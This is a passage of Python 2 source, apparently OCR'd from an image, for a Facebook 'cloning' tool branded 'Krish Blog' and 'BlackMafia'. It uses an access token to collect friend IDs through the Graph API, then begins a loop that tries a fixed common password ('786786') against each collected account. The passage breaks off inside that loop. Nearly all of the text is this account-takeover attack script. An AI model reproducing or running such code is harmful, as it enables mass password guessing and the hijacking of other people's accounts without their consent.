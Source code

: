 	print "\033[1;96m--\033[1;91m> \033[1;91m0.\033[1;94mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mKrish Blog\033[1;95m♡──────────•◈•──────────♡"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[♡] \033[1;92mEnter ID\033[1;93m: \033[1;97m")
		print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────╯♡"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94m----»"
	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mKrish Blog\033[1;95m♡──────────•◈•──────────♡"
	jalan(' \033[1;93m ........Cloning Start plzzz Wait.......... ')
	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mKrish Blog\033[1;95m♡──────────•◈•──────────♡"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')
